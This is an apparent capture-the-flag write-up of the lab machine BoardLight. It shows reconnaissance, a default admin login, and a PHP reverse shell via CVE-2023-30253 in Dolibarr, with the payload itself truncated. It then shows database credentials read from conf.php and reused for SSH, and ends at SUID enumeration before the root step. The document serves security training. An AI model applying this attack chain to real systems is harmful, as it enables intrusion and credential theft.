

## Summary

The box runs a `CRM` called `Dolibarr` on a `subdomain` which can be found by a `hint` on the `bottom of the main page` in form of an `email address`. Using `default credentials` makes you able to login as `admin`. Using `CVE-2023-30253` which is `PHP Code Injection` in `Dolibarr CRM` enables you to execute `arbitrary PHP code` in a newly created `website`. After you get foothold as `www-data` you can find `credentials` inside a `conf.php` file. With those credentials you can login as `larissa` via `SSH`. Typical `password re-use` there. A search on `binaries` owned by `root` show you `enlightenment_sys`. This can be abused by using a `Local Privilege Escalation (LPE)` also known as `CVE-2022-37706`.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
  - [Port Scanning](#Port-Scanning)
  - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
  - [Subdomain Enumeration](#Subdomain-Enumeration)
  - [Dolibarr CRM](#Dolibarr-CRM)
- [Foothold](#Foothold)
  - [CVE-2023-30253 Dolibarr PHP Code Injection](#CVE-2023-30253-Dolibarr-PHP-Code-Injection)
- [Stabilizing Shell](#Stabilizing-Shell)
- [Enumeration](#Enumeration)
- [Privilege Escalation to larissa](#Privilege-Escalation-to-larissa)
- [user.txt](#usertxt)
- [Pivoting](#Pivoting)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Reconnaissance

### Port Scanning

We started with a normal `Nmap` and found nothing unusual besides port `80/TCP`.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.10.166
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 15:01 EDT
Nmap scan report for 10.129.10.166
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.76 seconds
```

### Enumeration of Port 80/TCP

The website didn't showed anything useful at first glance.

- [http://10.129.10.166/](http://10.129.10.166/)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://10.129.10.166/
http://10.129.10.166/ [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@board.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.10.166], JQuery[3.4.1], Script[text/javascript], X-UA-Compatible[IE=edge]
```



But on the bottom of the website we found an `email address` pointing to `board.htb` which we added to our `/etc/hosts` file.

| Email          |
| -------------- |
| info@board.htb |

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.10.166   board.htb
```

### Subdomain Enumeration

We started enumerating for `subdomain` and found `crm.board.htb` which we also added to our `hosts` file.

```c
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.board.htb" -u http://board.htb --fs 15949

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 47ms]
<--- CUT FOR BREVITY --->
```

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.10.166   board.htb
10.129.10.166   crm.board.htb
```

### Dolibarr CRM

The subdomain greeted us with a `login page` to `Dolibarr CRM`.

- [http://crm.board.htb/](http://crm.board.htb/)



We were able to login by using `default credentials`.

| Username | Password |
| -------- | -------- |
| admin    | admin    |

## Foothold

### CVE-2023-30253 Dolibarr PHP Code Injection

The `CRM` ran in version `17.0.0` which was vulnerable to `CVE-2023-30253`. This vulnerability allowed us to execute `arbitrary PHP code` on a newly created `website`.

- [https://www.swascan.com/security-advisory-dolibarr-17-0-0/](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)
- [https://github.com/ivan-sincek/php-reverse-shell](https://github.com/ivan-sincek/php-reverse-shell)

We followed the steps in the article to created a new `website`.













For the payload we had to change `<php` to `<PHP` in capital letters to get executed.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/BoardLight/files]
└─$ cat php_reverse_shell.php 
<?PHP
<--- CUT FOR BREVITY --->
```



After saving our payload we clicked on `Show dynamic content` to trigger it and to get a `reverse shell` as `www-data`.



```c
Show dynamic content[](http://crm.board.htb/website/index.php?website=foobar&pageid=2&action=setshowsubcontainers&token=ddc9c10da9bdba3d6f11393dbdb81571)
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.44] from (UNKNOWN) [10.129.10.166] 58112
SOCKET: Shell has connected! PID: 1396
```

## Stabilizing Shell

```c
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@boardlight:~/html/crm.board.htb/htdocs/website$ 
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ export XTERM=xterm
www-data@boardlight:~/html/crm.board.htb/htdocs/website$
```

## Enumeration

As `www-data` we performed basic enumeration and found a new user called `larissa`.

```c
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```c
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:117:123::/var/lib/saned:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false
whoopsie:x:120:125::/nonexistent:/bin/false
colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:122:127::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:123:128:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:125:130:Gnome Display Manager:/var/lib/gdm3:/bin/false
sssd:x:126:131:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:127:134:MySQL Server,,,:/nonexistent:/bin/false
fwupd-refresh:x:128:135:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
sshd:x:129:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

## Privilege Escalation to larissa

By having a closer look on the `conf` directory we found `database credentials` inside `conf.php`.

```c
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ ls -la
total 56
drwxr-xr-x  2 www-data www-data  4096 May 17 00:18 .
drwxr-xr-x 79 www-data www-data  4096 Mar  4  2023 ..
-rw-r--r--  1 www-data www-data    31 Mar  4  2023 .htaccess
-rw-r--r--  1 www-data www-data  1736 May 17 00:18 conf.php
-rw-r--r--  1 www-data www-data 16394 Mar  4  2023 conf.php.example
-r--------  1 www-data www-data 16394 May 13 13:20 conf.php.old
```

```c
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

We re-used these credentials for the user larissa to `SSH` into the box and to grab the `user.txt`.

| Username      | Password          |
| ------------- | ----------------- |
| dolibarrowner | serverfun2$2023!! |

```c
┌──(kali㉿kali)-[~]
└─$ ssh larissa@board.htb
The authenticity of host 'board.htb (10.129.10.166)' can't be established.
ED25519 key fingerprint is SHA256:xngtcDPqg6MrK72I6lSp/cKgP2kwzG6rx2rlahvu/v0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'board.htb' (ED25519) to the list of known hosts.
larissa@board.htb's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

larissa@boardlight:~$
```

## user.txt

```c
larissa@boardlight:~$ cat user.txt
9d5265f81addc39308f9c55bad387c35
```

## Pivoting

Unfortunately `larissa` was not able to execute `sudo` commands on the host but while we searched for `interesting binaries` owned by `root`, we found usual files called `enlightenment_*` and in particular `enlightenment_sys`.

```c
larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```

```c
larissa@boardlight:~$ sudo -l
[sudo] password for larissa: 
Sorry, user larissa may not run sudo on localhost.
```

```c
larissa@boardlight:~$ find / -perm -4000 2>/dev/null | xargs ls -la
-rwsr-xr-x 1 root root        85064 Feb  6 04:49 /usr/bin/chfn
-rwsr-xr-x 1 root root        53040 Feb  6 04:49 /usr/bin/chsh
-rwsr-xr-x 1 root root        39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root        88464 Feb  6 04:49 /usr/bin/gpasswd
-rwsr-xr-x 1 root root        55528 Apr  9 08:34 /usr/bin/mount
-rwsr-xr-x 1 root root        44784 Feb  6 04:49 /usr/bin/newgrp
-rwsr-xr-x 1 root root        68208 Feb  6 04:49 /usr/bin/passwd
-rwsr-xr-x 1 root root        67816 Apr  9 08:34 /usr/bin/su
-rwsr-xr-x 1 root root       166056 Apr  4  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root        39144 Apr  9 08:34 /usr/bin/umount
-rwsr-xr-x 1 root root        14728 Oct 27  2023 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-- 1 root messagebus  51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root       477672 Jan  2 09:13 /usr/lib/openssh/ssh-keysign
